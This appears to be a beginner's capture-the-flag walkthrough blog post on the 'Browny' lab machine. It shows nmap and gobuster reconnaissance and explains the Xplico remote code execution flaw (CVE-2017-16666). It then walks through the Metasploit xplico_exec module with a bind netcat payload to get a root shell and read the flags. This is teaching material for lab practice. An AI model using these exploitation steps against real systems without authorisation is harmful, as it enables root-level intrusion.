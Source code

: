 ```yaml
---
title: "Browny Machine Writeup (easy)"
date: 2019-04-28T01:12:17+02:00
author: "Ahmed Amin"
draft: true
cover: "cover.jpg"
---
```



======================
<h2>Quick Summary</h2>


Hey guys , today I will walkthrough step by step in Browny Machine.
this Machine is so good for beginner in pentration testing you will gonna learn a lot in this experenice.
It is an easy linux machine , We will exploit Xplico Remote Code Execution in a vulnerable version Xplico that listen on port 9876 by default. There is a hidden end-point at inside of the Xplico that allow anyone to create a new user that can execute a terminal command under the context of the root user.
its ip is 10.1.1.17 I gonna added it to /etc/hosts as Browny.lab<br>
Let’s get Start !


======================
<h2>Infomartions Gathering Phase</h2>
<h3>#Nmap</h3>

We will use nmap tool for collecting informations about our target such as what services are running , whats its versions and does those services has potential vulnerabilities.

<style>
pre {
    color: cyan;
}
</style>
<pre>
nmap -sV -sC -sT Browny.lab
</pre>

> sV: for version detection <br>
> sC: for lunch default scripts againts services <br>
> sT: for system is used to open a connection to every interesting port on the machine 





![nmap.PNG](https://ahmedameenaim.github.io/username.github.io/posts/images/nmap.PNG)


<h3>we notice that there three  ports are open.</h3>
we can access the machine via ssh protocol but we don't have any crediantials to able to access via ssh.
so we can to  do http enumeration for finding any clues that lead us to access the machine through that way



it just a dummy html page. and nothing more.

<img src = "https://ahmedameenaim.github.io/username.github.io/posts/images/dummy.png">

<h3>#Brupsuite</h3>
Via Brupsuite lets check The Get Request to server and Response Maybe we found something useful.
<img src = "https://ahmedameenaim.github.io/username.github.io/posts/images/dummy2.PNG">
Not Much except the explico that will be a great indicator for gaining access for this machine.

always while you doing http enumeration try to brute force subdirectries for finding any intersesting web pages could give you a greate information about your target

<h3>#Gobuster</h3>
Gobuster is such a greate tool for brute forcing hidden directories in web application.
<pre>
gobuster -u 'http://Browny.lab' -w /usr/share/wordlists/dirb/common.txt
</pre>

<img src = "https://ahmedameenaim.github.io/username.github.io/posts/images/dummy3.PNG">
based on the response code we got they have 403 which mean we don't have premission to access to those webpages.


<h2>vulnerabilty detection and analysis</h2>
after doing info-garthing we got only one clue that can lead us to gain access. the explico service is running.
so what is explico ? explico is a piece of software that used for parsing pcap files that help forensics team
for collecting evidence and artifacts.Xplico extracts each email (POP, IMAP, and SMTP protocols), all HTTP contents, each VoIP call (SIP), FTP, TFTP, and so on. the problem is  There is a hidden end-point at inside of the Xplico that allow anyone to create a new user with premission of root.once the pcap file uploaded .
Xplico execute an operating system command in order to calculate checksum of the file. Name of the for this operation is direclty taken from user input and then used at inside of the command without proper input validation. so we can execute a shell on system and gain access.<br> <a href ="https://www.rapid7.com/db/modules/exploit/linux/http/xplico_exec">there is a metasploit module will do all the hard works to take advantage of this flaw</a>


<h2>Exploitation Phase</h2>
<h3>#Metasploit</h3>

lets lunch the Metasploit framework and doing research on xplico http exploit
By doing search we will find exploit with rank excellent
<pre>
grep http search xplico
use exploit/linux/http/xplico_exec
</pre>
![meta1.PNG](https://ahmedameenaim.github.io/username.github.io/posts/images/meta1.PNG)
<pre>
show options
set LHOST 10.253.x.x
set LHOST 10.1.1.17
show payloads
set  PAYLOAD cmd/unix/bind_netcat
</pre>

![meta2.PNG](https://ahmedameenaim.github.io/username.github.io/posts/images/meta2.png)

and now we have a shell.let do id command line to know make sure about privilege as root
we play an easy machine so don't need to privilege escalation or any complicated stuffs. all we need to do
is explore the system files after we sure that we are root. and open the root.txt and user.txt to  get the flags
<pre> 
id
pwd
find /home
find /root
cat /home/granit/usr.txt
cat /root/root.txt
</pre>
==============================
<h2>Understanding The Exploitation in Depth</h2>
I recommend you to read this artical <a href="https://pentest.blog/advisory-xplico-unauthenticated-remote-code-execution-cve-2017-16666/">Readme</a> will explain to you the details of the flaw in explico
this step is essential to not be a script kid that know doing stuffs without knowing what happing behind the scene

that's all about this machine. 
<h4>Stay tuned for upcoming series</h4>
<h3>Feedback is it very appreciate</h3>

